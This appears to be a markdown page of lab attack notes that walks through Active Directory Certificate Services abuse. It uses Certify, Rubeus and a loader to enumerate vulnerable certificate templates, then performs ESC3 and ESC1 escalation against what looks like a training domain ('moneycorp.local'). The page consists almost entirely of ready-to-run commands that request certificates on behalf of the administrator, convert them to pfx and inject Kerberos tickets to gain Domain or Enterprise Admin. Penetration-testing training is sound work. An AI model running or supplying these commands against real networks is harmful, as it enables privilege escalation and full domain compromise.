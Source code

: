 We can use the Certify tool (https://github.com/GhostPack/Certify) to enumerate (and for other attacks) AD CS in the target forest

```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Certify.exe -args cas
```

Enumerate templates
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Certify.exe -args find
```

Enumerate vulnerable templates
> **Note:** This will only show us templates where normal users have enrolment rights to it
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Certify.exe -args find /vulnerable
```

### ESC3 example
##### Enterprise Administrator 

> **Note:** Difference between DA and EA is we specify the domain of the forest root for EA

Request a certificate for a certificate template (example: `SmartCardEnrollment-Agent`)
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Certify.exe -args request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"SmartCardEnrollment-Agent"
```

Convert from `cert.pem` to `esc3.pfx` 
```powershell
C:\Users\Public\openssl\openssl.exe pkcs12 -in C:\Users\Public\esc3.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\Users\Public\esc3.pfx
```

Use `esc3.pfx` to request a certificate on behalf of EA using the `SmartCardEnrollment-Users` template
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Certify.exe -args request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:moneycorp.local\administrator /enrollcert:esc3.pfx /enrollcertpw:Pwned123!
```

Request EA TGT and inject it
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:moneycorp.local\administrator /certificate:esc3.pfx /dc:mcorp-dc.moneycorp.local /password:Pwned123! /ptt
```
##### Domain Administrator
Request a certificate for a certificate template (example: `SmartCardEnrollment-Agent`)
```powershell
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"SmartCardEnrollment-Agent"
```

Convert from `cert.pem` to `esc3.pfx` 
```powershell
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc3.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc3.pfx
```

Use `esc3.pfx` to request a certificate on behalf of DA using the `SmartCardEnrollment-Users` template.
```powershell
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator /enrollcert:esc3.pfx /enrollcertpw:Pwned123!
```

Convert from `cert.pem` to pfx (`esc3user-DA.pfx` below), request DA TGT and inject it
```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgt /user:administrator /certificate:esc3.pfx /password:Pwned123! /ptt
```

### ESC1 example
Check for templates that has the value of `ENROLLEE_SUPPLIES_SUBJECT ` for `msPKI-Certificates-Name-Flag`
```powershell
.\Certify.exe find /enrolleeSuppliesSubject
```

The template `HTTPSCertificates` allows enrolment to the RDPUsers group. Request
a certificate for DA (or EA) as a regular user
```powershell
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:moneycorp.local\administrator
```

Convert from `cert.pem` to `esc1.pfx` and specify export password
```powershell
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1.pfx
```

Request a TGT for DA (or EA)
```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgt /user:moneycorp.local\Administrator /dc:mcorp-dc.moneycorp.local /certificate:esc1.pfx /password:Pwned123! /ptt
```

